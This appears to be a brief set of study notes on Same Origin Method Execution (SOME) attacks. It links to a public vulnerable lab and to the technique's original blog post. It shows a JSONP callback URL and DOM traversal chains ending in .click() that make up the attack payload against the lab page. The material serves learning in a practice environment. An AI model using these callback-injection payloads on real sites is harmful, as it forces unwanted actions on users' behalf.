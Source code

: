 ﻿Same Origin Method Execution (SOME)
 - HTML  Injection be
 - iframe does not allow taking script from another site.
 - Universal XSS

Vulnerable Lab

```
https://www.someattack.com/Playground/

```
Original Author Ben Hayak's Blog

```
http://www.benhayak.com/2015/06/same-origin-method-execution-some.html

```
JavaScript Function ( Main Source )

```
<script> function changeColor(param) {
        document.getElementById("box").style.backgroundColor=param;
        } </script>

```

Color Picker

```
https://www.someattack.com/Playground/ColorPicker.php

```

Color Picker JavaScript Callback

```
https://www.someattack.com/Playground/ColorPicker.php?callback=changeColor

```

Target Reference ( Use Inspect Element )

```
document.getElementsByClassName("pure-controls")
document.getElementsByClassName("pure-controls")[0]
document.getElementsByClassName("pure-controls")[0].firstChild
document.getElementsByClassName("pure-controls")[0].firstChild.nextElementSibling
document.getElementsByClassName("pure-controls")[0].firstChild.nextElementSibling.click()

```

or

```
document.body.firstElementChild.firstChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.nextElementSibling.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click

```


